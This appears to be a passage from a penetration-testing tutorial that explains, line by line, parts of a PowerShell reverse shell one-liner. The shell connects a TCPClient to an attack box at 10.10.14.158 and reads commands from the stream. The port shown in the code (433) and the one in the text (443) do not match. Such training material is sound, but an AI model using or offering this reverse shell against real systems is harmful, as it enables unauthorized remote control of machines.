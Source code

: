 ```sh
powershell -nop -c 
```

Executes `powershell.exe` with no profile (`nop`) and executes the command/script block (`-c`) contained in the quotes. This particular command is issued inside of command-prompt, which is why PowerShell is at the beginning of the command. It's good to know how to do this if we discover a Remote Code Execution vulnerability that allows us to execute commands directly in `cmd.exe`.

#### Binding A Socket

  Binding A Socket

```sh
"$client = New-Object System.Net.Sockets.TCPClient(10.10.14.158,433);
```

Sets/evaluates the variable `$client` equal to (`=`) the `New-Object` cmdlet, which creates an instance of the `System.Net.Sockets.TCPClient` .NET framework object. The .NET framework object will connect with the TCP socket listed in the parentheses `(10.10.14.158,443)`. The semi-colon (`;`) ensures the commands & code are executed sequentially.

#### Setting The Command Stream

  Setting The Command Stream

```sh
$stream = $client.GetStream();
```

Sets/evaluates the variable `$stream` equal to (`=`) the `$client` variable and the .NET framework method called [GetStream](https://docs.microsoft.com/en-us/dotnet/api/system.net.sockets.tcpclient.getstream?view=net-5.0) that facilitates network communications. The semi-colon (`;`) ensures the commands & code are executed sequentially.

#### Empty Byte Stream

  Empty Byte Stream

```sh
[byte[]]$bytes = 0..65535|%{0}; 
```

Creates a byte type array (`[]`) called `$bytes` that returns 65,535 zeros as the values in the array. This is essentially an empty byte stream that will be directed to the TCP listener on an attack box awaiting a connection.

#### Stream Parameters

  Stream Parameters

```sh
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0)
```

Starts a `while` loop containing the `$i` variable set equal to (`=`) the .NET framework [Stream.Read](https://docs.microsoft.com/en-us/dotnet/api/system.io.stream.read?view=net-5.0) (`$stream.Read`) method. The parameters: buffer (`$bytes`), offset (`0`), and count (`$bytes.Length`) are defined inside the parentheses of the method.

